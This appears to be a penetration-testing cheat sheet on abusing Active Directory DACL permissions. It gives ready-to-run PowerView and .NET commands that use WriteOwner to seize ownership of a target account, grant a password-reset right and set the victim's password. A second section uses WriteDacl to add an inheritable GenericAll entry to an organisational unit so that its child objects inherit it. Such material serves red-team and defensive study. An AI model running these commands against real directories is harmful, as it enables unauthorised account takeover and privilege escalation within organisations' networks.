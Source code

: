 # DACL Attacks on any objects

## 1) WriteOwner

With this rights on a user it is possible to become the "owner" (Grant Ownership) of the account and then change our ACLs against it

    Set-DomainObjectOwner -Identity <target> -OwnerIdentity user1 -verbose
    Add-ObjectAcl -TargetIdentity <target> -PrincipalIdentity user1 -Rights ResetPassword

##### And change the password

    $cred = ConvertTo-SecureString "Password123!" -AsPlainText -force                  
    Set-DomainUserPassword -Identity <target> -accountpassword $cred

## 2) WriteDacl

With this rights we can modify our ACLs against the target, and give us GenericAll for example

    Add-ObjectAcl -TargetIdentity <target> -PrincipalIdentity user1 -Rights All

In case where you have the right against a container or an OU, it is possible to setup the Inheritance flag in the ACE. The child objects will inherite the parent container/OU ACE (except if the object has AdminCount=1)

    $Guids = Get-DomainGUIDMap
    $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name
    $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity user1 -Right ExtendedRight,ReadProperty,GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid
    $OU = Get-DomainOU -Raw <OU_name>

    $dsEntry = $OU.GetDirectoryEntry()
    $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
    $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
    $dsEntry.PsBase.CommitChanges()
